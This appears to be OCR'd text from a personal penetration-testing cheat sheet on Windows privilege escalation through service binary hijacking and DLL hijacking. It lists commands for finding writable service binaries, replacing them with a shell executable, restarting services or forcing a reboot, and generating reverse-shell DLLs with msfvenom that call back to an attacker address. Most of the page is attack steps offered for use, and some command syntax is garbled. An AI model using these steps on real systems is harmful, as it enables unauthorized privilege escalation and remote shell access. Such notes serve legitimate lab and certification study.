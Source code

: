 - [ ] While Checking for permissions check if both file and directory are writable. If any one is lesgoo...!
## Service Binary Hijacking
```
Get-CimInstance -ClassName win32_service | SelectName,State,PathName | Where-Object{$_.State-like'Running'}

icacls "C:\xampp\apache\bin\httpd.exe" (Check for write permissions)

**or**
  
Transfer Powerup.ps1
    
../Powerup.ps1
    
Get-ModifiableServiceFile (Automation to check which service binary can be replaced)
    
Get-CimInstance -ClassName win32_service | SelectName,StartMode | Where-Object{$_.Name-like'BackupMonitor'}(Check whether the service restarts itself or we have to)
    
**create shell.exe,filetransfer,rename it as original service filename**

net stop servicename

net start servicename
    
**or**

whoami /priv (look for shutdown privilege disabled)
   
shutdown /r /t 0
```
    
Note: When using a network logon such as WinRM or a bind shell, Get-CimInstance and Get-Service will result in a "permission denied" error when querying for services with a non-administrative user. Using an interactive logon such as RDP solves this problem.

## DLL Hijacking
- [ ] Check Service Binary Hijacking
- [ ] If we didn’t have write permission ,open procmon and filter based on specific service name.exe and create File in operations
- [ ] Look for the service calling a dll.
- [ ] Check if you have write permission there of if there is no dll replace it with shell.dll (look in Small exploits)
or
```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=8888 -f dll > shell.dll

msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.1.3 lport=8888 -f dll > shell.dll
```
File transfer and done
